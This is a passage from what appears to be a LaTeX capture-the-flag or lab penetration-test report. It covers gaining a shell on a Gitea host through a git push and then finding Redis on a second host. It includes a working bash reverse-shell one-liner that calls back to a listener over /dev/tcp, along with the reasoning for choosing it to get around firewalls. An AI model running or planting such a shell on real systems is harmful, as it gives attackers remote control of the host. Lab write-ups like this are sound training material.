 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=bash, caption=Reverse Shell Payload]
#!/bin/bash
bash -i >& /dev/tcp/10.75.134.1/4444 0>&1
\end{lstlisting}

The selection of a reverse shell was a vital tactical decision for firewall circumvention. While internal network security policies drop unsolicited inbound connections associated with bind shells, they routinely trust outbound established streams on common communication channels, increasing the likelihood of a successful callback.

\subsection{Definitive Outcome and Post-Exploitation Analysis}

The execution of a legitimate git push command forced the Gitea container engine to parse the malicious script, triggering a successful callback to the listener. A live interactive command shell session was captured, running under the context of the low-privileged application service account (git user).

Exhaustive post-exploitation filesystem enumeration and environment audits were performed globally within the container; however, no Capture the Flag (CTF) objectives or flag files were present. Based on this structural evidence, \texttt{10.75.134.90} was engineered as a functional application node rather than a primary data repository.

This outcome necessitated a strategic pivot, utilizing the compromised host as a conceptual stepping stone to explore interconnected network segments within the broader 10.75.134.0/24 subnet.


\section{DC31\_02 Findings}

\subsection{Technical Discovery and Vulnerability Analysis}

The second enumeration phase identified host \texttt{10.75.134.92} exposing a non-standard port 6379/tcp, forensically identified as \textbf{Redis} (Remote Dictionary Server) version 5.0.7 through banner inspection and protocol negotiation.
\end{document}
